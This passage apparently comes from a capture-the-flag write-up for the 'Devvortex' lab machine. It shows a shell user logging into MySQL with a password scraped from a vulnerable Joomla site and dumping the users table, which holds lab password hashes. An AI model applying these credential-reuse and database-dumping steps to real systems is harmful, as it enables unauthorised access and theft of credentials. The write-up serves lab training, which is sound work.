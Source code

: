 Recalling the information scraped from the vulnerable Joomla! service, we can log into the `mysql` database as `lewis`:

```bash
www-data@devvortex:/home/logan$ mysql --user=lewis --password=P4ntherg0t1n5r3c0n## --host=localhost
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \\g.
Your MySQL connection id is 62
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\\h' for help. Type '\\c' to clear the current input statement.
```

Running a few SQL commands to focus in on potential account credentials, we are able to print off the `users` table:

```sql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;

# ...

| sd4fg_users                   |

# ...

mysql> select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+--- ...]
| id  | name       | username | email               | password                                                     | bl ...]
+-----+------------+----------+---------------------+--------------------------------------------------------------+--- ...]
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |    ...]
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |    ...]
+-----+------------+----------+---------------------+--------------------------------------------------------------+--- ...]
2 rows in set (0.00 sec)

mysql>
```
